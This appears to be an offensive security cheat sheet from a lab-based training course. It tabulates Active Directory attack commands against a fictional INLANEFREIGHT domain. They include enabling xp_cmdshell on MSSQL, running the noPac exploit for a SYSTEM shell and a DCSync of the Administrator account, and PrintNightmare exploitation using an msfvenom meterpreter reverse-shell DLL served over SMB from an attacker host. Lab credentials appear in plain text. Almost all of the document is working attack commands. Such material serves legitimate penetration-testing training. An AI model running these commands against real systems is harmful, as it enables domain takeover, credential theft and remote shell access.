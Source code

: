 | `mssqlclient.py INLANEFREIGHT/DAMUNDSEN@172.16.5.150 -windows-auth` | Impacket tool used to connect to a MSSQL server from a Linux-based host. |

| `SQL> help`                                                  | Used to display mssqlclient.py options once connected to a MSSQL server. |

| `SQL> enable_xp_cmdshell`                                   | Used to enable `xp_cmdshell stored procedure` that allows for executing OS commands via the database from a Linux-based host. |

| `xp_cmdshell whoami /priv`                                   | Used to enumerate rights on a system using `xp_cmdshell`.    |

  
  
  

# NoPac

  

| Command                                                      | Description                                                  |

| ------------------------------------------------------------ | ------------------------------------------------------------ |

| `sudo git clone https://github.com/Ridter/noPac.git`         | Used to clone a `noPac` exploit using git. Performed from a Linux-based host. |

| `sudo python3 scanner.py inlanefreight.local/forend:Klmcargo2 -dc-ip 172.16.5.5 -use-ldap` | Runs `scanner.py` to check if a target system is vulnerable to `noPac`/`Sam_The_Admin` from a Linux-based host. |

| `sudo python3 noPac.py INLANEFREIGHT.LOCAL/forend:Klmcargo2 -dc-ip 172.16.5.5  -dc-host ACADEMY-EA-DC01 -shell --impersonate administrator -use-ldap` | Used to exploit the `noPac`/`Sam_The_Admin`  vulnerability and gain a SYSTEM shell (`-shell`). Performed from a Linux-based host. |

| `sudo python3 noPac.py INLANEFREIGHT.LOCAL/forend:Klmcargo2 -dc-ip 172.16.5.5  -dc-host ACADEMY-EA-DC01 --impersonate administrator -use-ldap -dump -just-dc-user INLANEFREIGHT/administrator` | Used to exploit the `noPac`/`Sam_The_Admin`  vulnerability and perform a `DCSync` attack against the built-in Administrator account on a Domain Controller from a Linux-based host. |

  
  
  

# PrintNightmare

  

| Command                                                      | Description                                                  |

| ------------------------------------------------------------ | ------------------------------------------------------------ |

| `git clone https://github.com/cube0x0/CVE-2021-1675.git`     | Used to clone a PrintNightmare exploit  using git from a Linux-based host. |

| `pip3 uninstall impacket git clone https://github.com/cube0x0/impacket cd impacket python3 ./setup.py install` | Used to ensure the exploit author's (`cube0x0`) version of Impacket is installed. This also uninstalls any previous Impacket version on a Linux-based host. |

| `rpcdump.py @172.16.5.5 \| egrep 'MS-RPRN\|MS-PAR'`            | Used to check if a Windows target has `MS-PAR` & `MSRPRN` exposed from a Linux-based host. |

| `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.129.202.111 LPORT=8080 -f dll > backupscript.dll` | Used to generate a DLL payload to be used by the exploit to gain a shell session. Performed from a Windows-based host. |

| `sudo smbserver.py -smb2support CompData /path/to/backupscript.dll` | Used to create an SMB server and host a shared folder (`CompData`) at the specified location on the local linux host. This can be used to host the DLL payload that the exploit will attempt to download to the host. Performed from a Linux-based host. |

| `sudo python3 CVE-2021-1675.py inlanefreight.local/<username>:<password>@172.16.5.5 '\\10.129.202.111\CompData\backupscript.dll'` | Executes the exploit and specifies the location of the DLL payload. Performed from a Linux-based host. |

  